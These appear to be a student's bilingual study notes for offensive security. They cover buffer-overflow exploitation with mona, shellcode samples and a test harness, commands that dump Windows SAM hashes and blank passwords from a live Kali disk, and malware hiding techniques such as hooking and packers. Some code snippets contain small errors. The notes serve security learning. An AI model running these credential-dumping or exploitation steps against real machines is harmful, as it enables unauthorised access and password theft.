


https://www.cobalt.io/blog/overflow-vulnerabilities
https://www.cobalt.io/blog/pentester-guide-to-exploiting-buffer-overflow-vulnerabilities

https://www.youtube.com/watch?v=1S0aBV-Waeo
https://www.youtube.com/watch?v=yJF0YPd8lDw&t=2863s

# Assembler

- NASM -Netwide Assembler
- MASM - Microsoft Macro Assembler

ISA (Instruction Set Architecture) - set of instructions to understand and use to write a program: memory, registry, instructions, ...
most common ISA: x86 (32 bit), x64 (64 bit) (długość rejestru)

# Memory Regions

https://www.youtube.com/watch?v=jKcg3ze10Hk
![[Pasted image 20231204142143.png]]

## Stack vs Heap

[[Stos (stack) i sterta (heap)]]
https://www.youtube.com/watch?v=5OJRqkYbK-4

# Działanie programu w Assemblerze

[[ASSEMBLER_program]]

# Useful Registers in Assembly

Rxx - 64-bit Registers -
Exx - 32-bit Registers:

- https://www.eecg.toronto.edu/~amza/www.mindsec.com/files/x86regs.html
- https://medium.com/@sharonlin/useful-registers-in-assembly-d9a9da22cdd9

## EBP

base pointer for the current stack frame. When a function is called, some space is reserved on the stack for local variables, which is referenced as EBP.

## EIP

instruction pointer - przechowuje adres następnej instrukcji do wykonania przez procesor

## ESP

stack pointer - pokazuje wolny adres na stosie gotowy do zapisania w nim danych, po zapisaniu w tym miejscu danych jest inkrementowany tak aby wskazywał kolejny wolny adres

## ESI

Source index for string operations. Essentially, this stores the start of the string that you’re saving to memory and is also used for string/memory copying.

## RET

kończy wykonanie procedury i nakazuje powrót do program wywołującego

# ASLR (Address space layout randomization)

[Address space layout randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)

## Bypas
https://www.corelan.be/index.php/2011/07/03/universal-depaslr-bypass-with-msvcr71-dll-and-mona-py/

### Bruteforce

### NOP-Sled

# DEP (Data Execution Prevention)

celem jest uniemożliwienie wykonywania kodu z segmentu danych. Pomaga to w ochronie przed exploitami wykorzystującymi przepełnienie bufora.

# Programy

## Immunity Debugger - debugging binaries.

mona plugin - https://github.com/corelan/mona

```powershell
# na dole w polu komend Immunity Debugger
!mona config -set workingfolder C:\ImmunityLogs\%p #configure working folder

# mona create payload
!mona pc 100 # payload ze 100 znakami

# mona find correct offset
!mona po xxxxx # x wartośc z EIP

# auto generate msf module
!mona suggest

!mona jmp -r esp
# -r register we want to target

!mona modules # sprawdź ASLR status
!mona noaslr # pokaż moduły bez włączonego ASLR
```

## IDA Pro

## Metasploit

pattern_create
./pattern_create.rb 100
pattern_offset
./pattern_offset.rb 22

## EMET

## Proces Explorer

https://learn.microsoft.com/pl-pl/sysinternals/downloads/process-explorer

# Real world BOF

#TODO

# Exploiting Buffer Overflows

https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation
Atak buffer overflow na stosie można przeprowadzić w następujący sposób:

1. **Nadmiar danych**: Atakujący wprowadza do bufora więcej danych, niż jest on w stanie pomieścić.
2. **Nadpisanie danych na stosie**: Nadmiarowe dane zaczynają być zapisywane poza zaalokowanym buforem, co może prowadzić do nadpisania zmiennych na stosie, w tym adresu powrotu.
3. **Nadpisanie adresu powrotu**: Atakujący umieszcza w nadmiarowych danych złośliwy kod (zwany exploitem) i zmienia adres powrotu (EIP) na adres, w którym znajduje się ten złośliwy kod.
4. **Wykonanie złośliwego kodu**: Gdy funkcja kończy swoje wykonywanie i próbuje powrócić do miejsca, z którego została wywołana, procesor wykonuje złośliwy kod umieszczony przez atakującego, który jest teraz wskazywany przez adres powrotu (EIP).
   Which register value will help us to determine the required bytes of data before overriding the EIP register? - EIP

## NULL-free shellcode

shellcode nie może zawierać `\x00` (NULL) - kopiowanie ciągów string tylko do tego znaku, wszystko co po nim nie zostanie skopiowane do bufora

- NULL-free encoding
- Alphanumeric and printable encoding
- Self-modyfying Code
  ![[Pasted image 20231208105703.png]]

## Debugging Shellcode

Program pozwalający na sprawdzanie działania shellcode

1. Zamienić `"shell code will go here!"` na własny shellcode
2. Skompilować
3. Uruchomić, jeśli shellcode wykona sie jak zaplanowano to działa dobrze

```C
char code[] = "shell code will go here!";
int main(int argc, char **arqgv)
{
	int (*func) ();
	func = (int (*)()) code;
	(int) (*func) ();
)
```

np:

```C
# ma uruchomić calc.exe
char code[] =
"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
"\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
"\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
"\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
"\x57\x78\x01\xc2\x8b\x7a\x20\x01"
"\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
"\x45\x81\x3e\x43\x72\x65\x61\x75"
"\xf2\x81\x7e\x08\x6F\x63\x65\x73"
"\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
"\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
"\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
"\xb1\xff\x53\xe2\xfd\x68\x63\x61"
"\x6C\x63\x89\xe2\x52\x52\x53\x53"
"\x53\x53\x53\x53\x52\x53\xff\xd7"

int main...
```

## Manual shellcode generation

https://www.vividmachines.com/shellcode/shellcode.html

### Pisząc Assemblera

Stworzenie kodu, który uśpi procesor na 5 sekund

1. Zlokalizować adres funkcji sleep w Kernel32.dll, za pomoca deassemblera lub programu `arwin.exe`
1. Napisać program w Assemblerze usypiający procesor na 5 sekund
   ```Assembly
   xor eax, eax                   ; zero out the eax register
   mov eax, 5000                  ; move the milliseconds value into eax (5000)
   push eax;                      ; push the function parameter onto the stack ; move the address of Sleep into ebx call the function
   mov ebx, Ox757d82d0 call ebx   ; move the address of Sleep into ebx call the function - Sleep (ms);
   ```
   Please note that we can create many different versions of the same code. For example, we can push 5000 directly onto the stack, without zeroing out the EAX register, and save one line of code.
1. Skompilować kod ASM
   `nasm -f win32 sleep.asm-O sleep.obj`
1. Zrobić dump stworzonego pliku `sleep.obj`, potrzeby bytecode stworzonego programu
   `objdump -d -Mintel sleep.obj`
1. Usunąć spacje i dodać prefix `\x`
   ![[Pasted image 20231208115110.png]]
   ```C
   # po skompilowaniu i uruchomieniu
   char code[] =
   "\x31\xc0"
   "\xb8\x88\x13\x00\x00"
   "\x50"
   "\xbb\xd0\x82\x7d\x75"
   "\xff\xd3";
   int main(int argc, char **argv)
   {
   	int (*func)();
   	func (int (*)()) code; (int) (*func)();
   }
   ```
   Jeśli ASLR jest włączony to adres instrukcji sleep jest losowy, każdy OS ma też inny adres.

### Pisząc w C++

1. Napisać program w C++
   ```C
   #include <windows.h>
   int main(int argc, char** argv)
   {
   	ShellExecute (0,"open", "cmd", NULL, 0, SW_MAXIMIZE);
   }
   ```
1. Skompilować go
   ![[Pasted image 20231208122950.png]]
1. Wyciągnąć Shellcode
1. ...

# Buffer Overflow Graf



# Crypto
![[Crypto]]

# Public Key Infrastructure
![[Public_Key_Infrastructure]]




# PGP (Preety Good Privacy)
PGP, czyli Pretty Good Privacy, używa kombinacji symetrycznego i asymetrycznego szyfrowania do zabezpieczenia komunikacji. Oto ogólny sposób, w jaki PGP działa:

1. **Symetryczne szyfrowanie**: PGP zaczyna od generowania losowego klucza (zwany symetrycznym kluczem sesyjnym) do szyfrowania wiadomości. Ten klucz jest używany tylko do jednego przesłania danych i jest szyfrowany za pomocą klucza publicznego odbiorcy.
    
2. **Asymetryczne szyfrowanie**: Każdy użytkownik PGP ma parę kluczy - publiczny i prywatny. Klucz publiczny służy do szyfrowania wiadomości, podczas gdy klucz prywatny jest używany do deszyfrowania tych wiadomości. Nadawca używa klucza publicznego odbiorcy do zaszyfrowania wygenerowanego wcześniej klucza symetrycznego.
    
3. **Podpisywanie cyfrowe**: Nadawca może również podpisać swoją wiadomość przy użyciu swojego klucza prywatnego. Podpis cyfrowy służy do potwierdzenia autentyczności nadawcy i integralności wiadomości.
    
4. **Przesyłanie wiadomości**: Zaszyfrowana wiadomość oraz ewentualny podpis cyfrowy są przesyłane do odbiorcy. Odbiorca używa swojego klucza prywatnego do odszyfrowania klucza symetrycznego, którym z kolei odszyfrowuje całą wiadomość.
    

Dzięki temu podejściu PGP zapewnia bezpieczną komunikację, ponieważ tylko odbiorca, mający odpowiedni klucz prywatny, może odczytać zawartość wiadomości, a podpis cyfrowy umożliwia potwierdzenie tożsamości nadawcy i integralności przesyłanych danych.

![[Pasted image 20240103102918.png]]

# SSH
[[(reverse) shell]]
# Cryptographic Attacks
![[Pasted image 20240103105412.png]]
![[Pasted image 20240103105435.png]]
![[Pasted image 20240103105552.png]]
https://kestas.kuliukas.com/RainbowTables/
Here you can download some free rainbow tables - http://ophcrack.sourceforge.net/tables.php
You can also generate them with the tool 'rtgen.exe' - http://project-rainbowcrack.com/index.htm#download
# Windows Passwords
![[Pasted image 20240103113009.png]]


All the passwords in Windows (except in Domain Controller configuration) are stored in a configuration database called SAM. 
The **Security Accounts Manager** (SAM) is a database stored as a registry file in Windows NT, Windows 2000, and later versions of Windows.


It stores users' passwords in a hashed format:
* LM hash
* NT hash

These hashes are stored in the Windows SAM file. This file is located on your system at: *C:\Windows\System32\config*. 
But, it is not accessible while the operating system is running.

These values are also stored in the registry at:
*HKEY LOCAL MACHINE\SAM*
But again this area of the registry is also not accessible while the operating system is running and requires *SYSTEM* privileges anyway.
## Stealing hash
### Remotely 
In this case, passwords are dumped from the memory of remote system, by loading the password dumping program from remote.
This requires at least an administrative account.
This can done by using tools such as:
+ pwdump http://www.foofus.net/fizzgig/pwdump/
+ fgdump http://foofus.net/goons/fizzgig/fgdump/
+ ophcrack http://ophcrack.sourceforge.net/
### Locally
Here you need physical access to the machine. At this point there are two cases:
* Running system - In this case, a local administrator account is required to download hashes from the memory.
* Off-line system - In this, passwords hashes are decrypted from the offline password storage file SAM. The key to decrypt SAM is stored in SYSTEM file.

**STEAL HASH/OVERWRITE HASH**
z wyłaczonej maszyny za pomocą wersji live kali linux 
```bash
# terminalu live kali
#  mount the partition where Windows is installed and then move in the folder
root@root: mkdir /mnt/sda1
root@root: mount -t ntfs /dev/sda1 /mnt/sda1 
root@root: cd /mnt/sda1/WINDOWS/system32/config/

# dump hashy uzytkowników
root@root: bkhive system syskey.txt # dla Win7 to bkhive SYSTEM syskey.txt 
root@root: samdump2 SAM syskey.txt > hashdump.txt
root@root: cat hashdump.txt

# usuń hasła użytkowników
root@root: chntpw -l /mnt/sda1/WINDOWS/system32/config/SAM # find all existing users on the Windows machine
root@root: chntpw -u Workgroup SAM # Select the user whose password you want to remove. In my case is “Workgroup”.
# After executing the command it shows you different options. All you have to do is proceed by selecting option 1 “Clear (blank) user password” to remove the Windows password.
# Then press “q” and “y” to save the changes.

```
**BYPASS LOGIN**
[Kon-Boot](http://www.piotrbania.com/all/kon-boot/) is a software which allows to change contents of a Linux and Windows kernel on the fly (while booting). It allows to log into a system as 'root' user without typing the correct password or to elevate privileges from current user to root. It allows to enter any password protected profile without any knowledge of the password.

# Malware
## Definitions
* **Malware** - software written to cause damage or infiltrate computer systems without the owner's informed consent. It is a general term used to represent various forms of intrusive, hostile and/or annoying code.
* **Virus** - computer program that copies itself and spreads without the permission or knowledge of the owner. Viruses do not spread via exploiting vulnerabilities (the ones that do that are called worms).
* **Trojan horse** (or simply trojan) is a kind of malware that appears to the user to perform a function, but in-fact facilitates unauthorized access to the owner's system. They are not self-replicating unlike viruses.
* **Rootkit** is a malware which is designed to hide the fact that a compromise has already been done or to do the compromise at a deeper level. They are basically installed as drivers (or kernel modules).
* A **backdoor** is a software (or modification to the software) which helps in bypassing authentication mechanism, keeping remote access open (for later unauthorized purpose) which trying to remain hidden.
* **Adware** is basically advertising supported software which displays ads from time-to-time during the use of the software.
* A **spyware** is a software(kind of malware) which keeps on spying the user activities such as collecting user information (what he types), his website visiting record and other information without the consent of the computer owner.
* **Greyware** is a collective name of spyware and adware.
* A **dialer** is a software which is used to connect to the internet but instead of connecting to normal numbers, they connect to premium numbers which are charged highly.
* **Key-loggers** are malware which log down key pressed by the key-owner without the consent of the owner. Thus, the person is unaware that his actions are being monitored.
* **Botnet** refers to a collection of compromised computers which run commands automatically and autonomously (with the help of command and control server).
* **Ransomware** is a software which locks down important files with a password and then demands from the user to send money and in return promises to unlock files.
* **Worms** are basically software which use network/system vulnerabilities to spread themselves from system to system. They are typically part of other software such as rootkit and are normally the entry point into the system.
## Techniques
The most important covert methods are:
### Streams (ADS)
Streams are a feature of NTFS file system, they are not available on FAT file systems.
Microsoft calls them Alternate Data Stream.
The original data stream is file data itself(it is the data stream with no name), all other streams have a name. Alternate data streams can be used to store file meta data/or any other data.

Type the following command in the command prompt:
```bash
echo This data is hidden in the stream. Can you Read IT ??? >> sample.txt:hstream

# retrieve back your data:
more < sample.txt:hstream
```

### Hooking native Apis / SSDT
SSDT stands for System Service Descriptor Table. 
Native API is API which resides in ntdll.dll and is basically used to communicate with kernel mode.

1. Hook SSDT table entry corresponding to NtQueryDirectoryFile
2. Now, whenever the above function is called, your function will be called
3. Right after your function gets called, call original function and get its result (directory listing)
4. If the result was successful, modify the results (hide the file/sub-directory you want to hide)
5. Now pass back the results to the caller
6. You are hidden

### Hooking IRP
Windows architecture in kernel mode introduced the concepts of IRPs (I/O Request Packets) to transmit piece of data from one component to another. The concept of IRPs is well explained in the Windows Driver Development Kit (it is available for free). 
Almost everything in the windows kernel use IRPs for example network interface (TCP/UDP, etc.), file system, keyboard and mouse, and almost all existent drivers.

There are basically 2 ways to play with IRPs:
* Become A Filter Driver:- Register with the operating system as a filter driver or an attached device.
* Hooking The Function Pointer: in the previous snippet, the array is just a table with function pointers and can be easily modified
### Hiding Process
E.g., first thing you have to do is to hook NtOpenProcess native API (probably using SSDT table hooks).
Please refer to earlier segments of this chapter to know more about SSDT hooking.
### API Hooking
* **IAT hooking** stands for Import Address Table. It is basically used to resolve runtime dependencies.
For example, when you use MessageBoxA API in windows, your compiler automatically links to user32.dll.
This makes your program dependent on user32.dll.

* **EAT hooking** stands for Export Address Table. This table is maintained in DLLs (dynamic link library).
These files just contain support functions for other executable files.


The difference between IAT and EAT hooking is:
Since EATs exist only in DLL files (under normal settings) most of the times EAT hooking is utilized only on DLLs while IAT hooking can be done on both EXEs and DLLs.


* **Inline Hooking** is the most difficult to do due to the way it works.
In this form of hooking, we modify the first few bytes of the target function code and replace them with our code which tells the IP (instruction pointer) to execute code somewhere else in memory. Whenever the function gets executed, we will get control of execution; after doing our job, we have to call the original function so we have to fix up the modified function.
This is normally done by executing a number of instructions which were replaced and then resuming execution in non-modified original function code.
### Anti-Debugging Methods
There are several methods which are used by malware to increase the time required to analyze the code (by security analysts). If such techniques are not already known by security analysts, then the time required increases drastically.
### Anti-Virtual Machine

Virtual Machine let you install a virtual OS side-by side your OS (without disturbing your OS) and will run just like any other normal program. These techniques are basically used by security analysts, so malware authors have found out few bugs in these applications which can be used to detect whether the OS is virtualized or not.
The techniques basically work on the SIDT instruction, which returns the IDT table address.
On real machines, it is in low memory less than 0xd0 while for virtualized OS (VMware/Virtual Pc ), it is higher than that.
This abnormal behavior leads to detection whether the malware is running on a real or virtualized system or not.
### Obfuscation
Code obfuscation techniques transform/change a program in order to make it more difficult to analyze while preserving functionality. Code obfuscation is used both by malware and legal software to protect itself. The difference is that malware use it to either prevent detection or make reverse engineering more difficult.

### Packers
Packers are software which compress the executable. They were initially designed to decrease the size of executable files. However, the malware authors recognized very quickly that decreasing file size will decrease number of patterns in the file, so less chances of detection by anti-virus.

Packer facts:
* Packers allow to compress/encrypt applications.
* You cannot see the code of the application using a disassembler, you need to unpack it first.
* Packers compress applications and add a small loader to the file.
* The loader will decompress the binary in memory, resolve imports, and call the Original Entry Point (OEP).
### Polymorphism
Polymorphic code aims at performing a given action (or algorithm) through code that mutates and changes every time the action has to be taken. The mutation makes them very difficult to detect.
There have been only a few polymorphic viruses and they still are not detected 100% by most of the anti-viruses. All polymorphic viruses have a constant encoding and variable decryptor. So a virus using a different XOR key to encrypt its variant also falls into polymorphic category.
### Metamorphism
It can be best defined as polymorphism with polymorphism applied to the decryptor/header as well.
There are numerous ways to implement metamorphism/polymorphism (both are similar with some minor differences). Some of which are documented below:
* Garbage Insertion
* Register Exchange
* Permutation of Code Blocks
* Insertion of Jump Instructions Instruction Substitution
* Code Integration with Host